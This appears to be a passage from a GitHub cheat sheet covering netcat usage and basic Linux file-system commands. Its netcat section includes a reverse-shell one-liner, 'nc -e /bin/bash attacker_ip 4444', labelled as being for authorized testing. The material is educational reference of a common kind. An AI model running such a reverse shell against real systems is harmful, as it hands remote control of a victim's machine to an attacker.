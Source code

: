 ### Netcat (Network Debugging)

#### **Basic Usage**
```bash
# Listen on port
nc -l -p 4444

# Connect to remote host
nc target_ip 4444

# File transfer
nc -l -p 4444 > received_file    # Receiver
nc target_ip 4444 < file_to_send # Sender

# Banner grabbing
nc target_ip 80
echo "GET / HTTP/1.0\r\n\r\n" | nc target_ip 80

# Reverse shell (for authorized testing only)
nc -e /bin/bash attacker_ip 4444  # On target
nc -l -p 4444                     # On attacker
```

#### **Advanced Features**
- UDP communication (-u flag)
- Port scanning (-z flag)
- Timeout specification (-w flag)
- Verbose output (-v flag)

---

## 📝 Linux Cheat Sheet

### File System Navigation
```bash
# Current directory
pwd

# List files and directories
ls                    # Basic listing
ls -la               # Detailed listing with hidden files
ls -lh               # Human-readable file sizes
ls -lt               # Sort by modification time
ls -lS               # Sort by file size

# Change directory
cd /path/to/directory
cd ..                # Parent directory
cd ~                 # Home directory
cd -                 # Previous directory

# Create directories
mkdir directory_name
mkdir -p path/to/nested/directories

# Remove directories
rmdir empty_directory
rm -rf directory_with_contents
```
